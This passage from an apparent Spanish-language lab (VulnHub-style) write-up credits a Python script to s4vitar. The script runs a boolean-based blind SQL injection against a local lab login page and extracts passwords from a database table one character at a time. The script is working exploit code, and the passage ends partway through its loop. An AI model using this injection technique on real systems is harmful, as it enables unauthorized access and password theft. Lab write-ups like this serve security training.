 ![](/assets/images/vh-writeup-BoredHB/burp7.png)

Esta es el script hecho por el gran maestro s4vitar <https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q>

```python
#!/usr/bin/python3

from pwn import *
import requests, sys, time, signal, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl + C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.100.90:8080/login"
characters = string.ascii_lowercase + string.digits + ","

def makeSQLI():
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando")

    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    
    extracted_info = ""

    for position in range(1, 100):
        for character in characters:

            post_data = {
                'password': '''" or (select substr(group_concat(password),%d,1) from code)='%s'-- -''' % (position,character)
            }
            
            r = requests.post(main_url, data=post_data)

            if "WRONG INFORMATION" not in r.text:
                extracted_info += character
                p2.status(extracted_info)
                break
```